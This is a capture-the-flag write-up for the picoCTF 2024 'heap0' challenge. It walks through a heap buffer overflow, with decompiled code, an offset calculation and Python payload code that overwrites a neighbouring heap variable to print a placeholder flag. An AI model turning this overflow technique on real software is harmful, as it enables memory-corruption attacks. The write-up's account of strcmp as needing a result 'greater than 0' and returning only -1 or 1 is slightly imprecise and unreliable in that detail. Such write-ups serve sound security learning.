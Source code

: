 ## picoctf 2024 heap0
if we execute `file heap0`
```
heap0: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2015ade3c2b89f5069cb8c54dd750d1b9849062d, for GNU/Linux 3.2.0, with debug_info, not stripped
```
if we run the binary file, it would print this : 

```
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5e35046636b0  ->   pico
+-------------+----------------+
[*]   0x5e35046636d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice:
```

then with idafree, we can see that there are only 2 malloc in the main function :
```
  input_data = (__int64)malloc(5uLL);
  strcpy((char *)input_data, "pico");
  safe_var = (char *)malloc(5uLL);
```

also with idafree, if we check the check_win() function, and we will print the flag if `if ( strcmp(safe_var, "bico"))` means that we have to fill the safe_var heap with value greater than "bico", in this case i just use "cico" because c is greater than b. this is the detailed explanation of what strcmp does : 
```
strcmp(str1, str2) = -1  // "apple" < "banana"
strcmp(str2, str1) = 1   // "banana" > "apple"
strcmp(str1, str3) = 0   // "apple" == "apple"
```

we have all the information we need. then this is our plan : 
1. calculate the offset between the second and the first heap
2. we fill the gap until we overwrite the second heap
3. the return value of strcmp in the check_win function has to become greater than 0 to print the flag.

with ipython, we can calculate the offset between the first and the second heap
```
hex(0x5e35046636d0-0x5e35046636b0)
0x20
```

so, 0x20 is the offset. so, we choose 2 to send the payload : 
```
c.recvuntil(b"Enter your choice: ")
c.sendline(b"2")
c.recvuntil(b"Data for buffer: ")

#AAAAAAAAAAAAAAAA000000000000000!cico
input_data = b"A" * 0x10
input_data += b"\x00" * 15
input_data += b"\x21"
input_data += b"cico"
c.sendline(input_data)
```

then we print by choosing 1 to make sure that we fill the heap correctly
```
c.recvuntil(b"Enter your choice: ")
c.sendline(b"1")
output_str = c.recvuntil(b"Enter your choice: ")
lines = output_str.splitlines()

# Print the output tidily
for line in lines:
    print(line)
```
the output would become like this: 
```
b'Heap State:'
b'+-------------+----------------+'
b'[*] Address   ->   Heap Data   '
b'+-------------+----------------+'
b'[*]   0x61d72e95a6b0  ->   AAAAAAAAAAAAAAAA'
b'+-------------+----------------+'
b'[*]   0x61d72e95a6d0  ->   cico'
b'+-------------+----------------+'
b''
b'1. Print Heap:\t\t(print the current state of the heap)'
b'2. Write to buffer:\t(write to your own personal block of data on the heap)'
b"3. Print safe_var:\t(I'll even let you look at my variable on the heap, I'm confident it can't be modified)"
b'4. Print Flag:\t\t(Try to print the flag, good luck)'
b'5. Exit'
b''
b'Enter your choice: '
```
voila, we overwrite the second heap with "cico". we can print the flag then. 
```
# Split the output into lines for better control
c.sendline(b"4")
print(c.recvuntil(b"}"))
```

```
b'\nYOU WIN\nflag{abcdef}'
```



